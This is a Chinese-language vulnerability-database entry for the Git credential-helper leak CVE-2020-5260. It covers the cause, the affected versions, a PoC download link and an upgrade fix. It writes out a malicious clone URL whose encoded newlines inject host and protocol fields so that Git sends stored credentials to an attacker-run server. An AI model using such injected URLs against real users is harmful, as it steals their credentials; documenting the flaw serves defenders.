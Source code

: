```yaml
---
title: 'Git凭证泄露漏洞（CVE-2020-5260）'
date: Sun, 27 Sep 2020 12:45:42 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 描述

Git使用凭证助手(credential helper)来帮助用户存储和检索凭证。但是当一个URL中包含经过编码的换行符时，可能将非预期的值注入到credential helper的协议流中。这将使恶意URL欺骗Git客户端去向攻击者发送主机凭据。当使用受影响版本 Git对恶意 URL 执行 git clone 命令时会触发该漏洞。

#### 影响版本

Git2.17.x <= 2.17.3Git2.18.x <= 2.18.2Git2.19.x <= 2.19.3Git2.20.x <= 2.20.2Git2.21.x <= 2.21.1Git2.22.x <= 2.22.2Git2.23.x <= 2.23.1Git2.24.x <= 2.24.1Git2.25.x <= 2.25.2Git2.26.x <= 2.26.0 poc 链接：https://pan.baidu.com/s/1upYlyZFZMDuNZ5YnMnrmaQ 提取码：e9iz 启动poc：go run poc.go git在执行类似"git clone https://example.com" 这样的命令时,会请求使用协议"https"存储主机"example.com"的凭据，并在远程端请求身份验证时将返回的凭据附加到发出的请求中 git clone 'http://localhost:8088/%0ahost=github.com%0aprotocol=https' ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/20200716173859320.png) 获取到git的凭证

#### 修复建议

升级到最新版